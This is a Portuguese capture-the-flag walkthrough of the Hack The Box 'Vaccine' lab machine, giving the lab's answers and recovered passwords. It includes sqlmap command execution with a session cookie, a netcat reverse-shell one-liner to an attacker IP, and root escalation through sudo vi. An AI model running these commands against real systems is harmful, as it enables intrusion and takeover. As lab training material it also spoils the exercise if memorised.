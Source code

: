 # Maquina Vaccine do HTB

---

## Qual outro serviço está rodando além do SSH e HTTP?
Está rodando o FTP na porta 21 .

### Saída do Nmap:
```bash
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
```
Para poder acessar o servidor web é necessário colocar o IP da box no arquivo `/etc/hosts`, já coloquei caso seja necessário.

---

## Qual nome de usuário podemos acessar o FTP sem senha?
Por padrão, caso não seja desativado no sistema, é possível logar como usuário **anonymous**, usando o comando:
```bash
ftp <IP>
```
Após isso, ele pede o usuário onde você deve escrever `anonymous` e, para a senha, basta apertar *Enter*. Quando logado, conseguimos listar os arquivos com o comando `ls`, descobrindo um arquivo zip chamado `backup.zip`, que pode ser baixado com o comando `get`.

---

## Qual o nome do arquivo que baixamos no serviço?
**Backup.zip**

O arquivo está protegido por senha. Para isso, usaremos o **John The Ripper** com os seguintes comandos:
```bash
zip2john backup.zip > hash.txt
john --wordlist=rockyou.txt hash.txt
```
Após quebrar o hash, descobrimos que a senha é **741852963**. Podemos descompactar o arquivo com:
```bash
unzip backup.zip
```
Ele extrai dois arquivos: um `.php` e outro `.css`.

---

## Qual script do John podemos usar para gerar um hash de senha do arquivo zip?
`zip2john`

---

## Qual a senha do admin para o website?
Dentro do arquivo `.php`, há um formulário com o login **admin** e a senha criptografada **`2cb42f8734ea607eefed3b70af13bbd3`**.

Essa senha está em **MD5**. Após descriptografá-la, obtemos:
```bash
qwerty789
```

---

## Que opção pode ser passada para o SQLMAP para tentar obter a execução de comando por meio da injeção de SQL?
`--os-shell`

Após logar no site como administrador usando a senha descoberta anteriormente, estamos na página autenticada. Pegamos a **URL** e o **cookie da sessão** e tentamos obter uma shell através do **sqlmap** com:
```bash
sqlmap -u "http://vaccine.htb/dashboard.php?search=test" --cookie="PHPSESSID=9m3tqfkvcdfadc88afl3c6jb5q" --os-shell
```

---

## Qual programa o usuário `postgres` pode rodar como root usando `sudo`?
Após acessar uma shell através do SQLMap, realizamos uma **conexão reversa** com `ncat` no nosso servidor utilizando o comando:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.15.216 4444 >/tmp/f
```
O comando foi gerado pelo site [RevShells](https://www.revshells.com/), onde inserimos nosso **IP (10.10.15.216)** e **porta (4444)**.

Para melhorar a interação com o shell, usamos:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
CTRL + Z  # Joga para background
stty raw -echo; fg
stty rows 38 columns 116
```

Posteriormente, usamos:
```bash
cd /var/www/html
```
No arquivo `dashboard.php`, encontramos a senha do usuário `postgres`:
```bash
user=postgres
password=P@s5w0rd!
```
Executamos:
```bash
sudo -l
```
E obtemos a seguinte saída:
```bash
User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```
Isso significa que podemos usar `vi` como root.

Tendo o login e senha do `postgres`, podemos fazer login via **SSH**:
```bash
ssh postgres@<IP>
```

---

## Submit user flag
Com o comando `cat`, podemos visualizar a flag do usuário no terminal.
```bash
cat /home/<usuario>/user.txt
```

---

## Submit root flag
Como `vi` pode ser executado como **root sem senha**, abrimos o arquivo de configuração:
```bash
sudo vi /etc/postgresql/11/main/pg_hba.conf
```
E utilizamos o método do **GTFOBins** para obter uma shell root:
```bash
:set shell=/bin/sh
:shell
```
Agora, conseguimos acessar `/root` e ler a flag com:
```bash
cat /root/root.txt
```

---

# 🎯 Com isso finalizamos a máquina! 🚀
